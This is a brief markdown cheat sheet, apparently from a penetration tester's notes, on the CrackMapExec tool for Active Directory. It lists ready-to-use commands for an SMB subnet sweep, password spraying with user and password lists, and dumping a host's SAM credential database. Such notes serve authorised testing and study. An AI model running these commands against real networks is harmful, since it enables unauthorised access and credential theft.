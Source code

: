 ```yaml
---
title: CME
tags:
  - Enumeration
  - Post-exploitation
---
```


A powerful post-exploitation tool used for auditing and assessing large Active Directory networks.

```Bash Sweep scan
crackmapexec smb $ip/24
```

---

```Bash Password Spraying
crackmapexec smb -U user.txt -P pass.txt $ip
```

---

```bash Dump sam database
crackmapexec smb -U $user -P $password --sam
```

